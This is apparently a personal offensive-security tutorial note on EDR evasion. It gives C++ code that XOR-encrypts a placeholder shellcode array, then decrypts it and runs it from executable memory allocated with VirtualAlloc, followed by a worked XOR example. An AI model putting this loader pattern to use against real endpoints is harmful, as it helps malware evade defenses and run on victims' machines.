

---
{"dg-publish":true,"permalink":"/attack-computer/attack-windows/1a-windows-defense-mechanism/2-edr-evasion/1b-xor-based-self-decrypting-payload-with-memory-execution/","noteIcon":"","created":"2025-04-15T14:11:19.620-04:00"}
---


# **1. XOR-Based Self-Decrypting Payload (C++)**
### **Step 1: Encrypt the Shellcode**
```cpp
#include <iostream>
#include <windows.h>  // For PBYTE type

/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A random array of bytes of specific size
	- sKeySize : The size of the key
*/
void XorByInputKey(PBYTE pShellcode, SIZE_T sShellcodeSize, PBYTE bKey, SIZE_T sKeySize) {
    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
        if (j >= sKeySize) {
            j = 0;  // Reset key index when reaching the end
        }
        pShellcode[i] ^= bKey[j];  // XOR encryption
    }
}

int main() {
    unsigned char shellcode[] = { /* Your original shellcode */ };
    SIZE_T shellcode_size = sizeof(shellcode);

    unsigned char key[] = { 0xAA, 0xBB, 0xCC }; // Multi-byte key
    SIZE_T key_size = sizeof(key);

    std::cout << "Original Shellcode: ";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Encrypt the shellcode
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    std::cout << "Encrypted Shellcode: ";
    for (SIZE_T i = 0; i < shellcode_size; i++) {
        std::cout << "0x" << std::hex << (int)shellcode[i] << " ";
    }
    std::cout << "\n";

    // Decrypt before execution
    XorByInputKey(shellcode, shellcode_size, key, key_size);

    // Allocate executable memory
    void* exec_mem = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!exec_mem) {
        std::cerr << "[-] VirtualAlloc failed!\n";
        return 1;
    }

    // Copy decrypted shellcode to allocated memory
    memcpy(exec_mem, shellcode, shellcode_size);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    return 0;
}
```

----

## **Concept Overview**
- You have a **payload (`pShellcode`)**, which is a binary array.
- You have a **multi-byte key (`bKey`)**, used for XOR encryption.
- The function **XORs each byte of `pShellcode` with the corresponding byte in `bKey`**.
- If the key is **smaller than the payload**, it **loops (cycles) back to the beginning** of the key.

---

## **XOR Encryption Process**


---

## **Step-by-Step Walkthrough (With Example)**
Let's assume:
- **`pShellcode` (shellcode)** = `0x41, 0x42, 0x43, 0x44, 0x45` (`A, B, C, D, E`)
- **`bKey` (multi-byte key)** = `0xAA, 0xBB, 0xCC`
- **Encryption Process:**
  - `pShellcode[i] ^= bKey[j]` → Each byte in shellcode is XORed with the key.
  - `j` increments through the key, cycling back when it reaches the end.

| `i` (index) | `pShellcode[i]` (original) | `bKey[j]` (key) | XOR Output (`pShellcode[i] ^= bKey[j]`) |
|------------|-------------------------|----------------|--------------------------------|
| 0          | `0x41` (A)               | `0xAA`         | `0xEB`                        |
| 1          | `0x42` (B)               | `0xBB`         | `0xF9`                        |
| 2          | `0x43` (C)               | `0xCC`         | `0x8F`                        |
| 3          | `0x44` (D)               | `0xAA`         | `0xEE` (Key loops)            |
| 4          | `0x45` (E)               | `0xBB`         | `0xFE` (Key loops)            |

So, the **encrypted payload** will be:
```
0xEB, 0xF9, 0x8F, 0xEE, 0xFE
```

If you **call `XorByInputKey` again on the encrypted data**, it **decrypts back to the original** (XOR is symmetric).

---

## **Visualization: How Key Loops Over Payload**
```plaintext
Original Shellcode:    A    B    C    D    E
Hex Representation:   41   42   43   44   45
XOR Key (Repeating):  AA   BB   CC   AA   BB
Encrypted Output:     EB   F9   8F   EE   FE
```
Since the **key is shorter than the shellcode**, it **cycles back** after the third byte.

---

## **Memory Representation**
- **Before Encryption:**
```plaintext
pShellcode:   [ 0x41, 0x42, 0x43, 0x44, 0x45 ]  (A, B, C, D, E)
bKey:         [ 0xAA, 0xBB, 0xCC ]  (Key repeats every 3 bytes)
```

- **After XOR Encryption:**
```plaintext
pShellcode:   [ 0xEB, 0xF9, 0x8F, 0xEE, 0xFE ]
```

- **After XOR Decryption (Reapplying XOR on Encrypted Data):**
```plaintext
pShellcode:   [ 0x41, 0x42, 0x43, 0x44, 0x45 ]  (A, B, C, D, E restored)
```

---

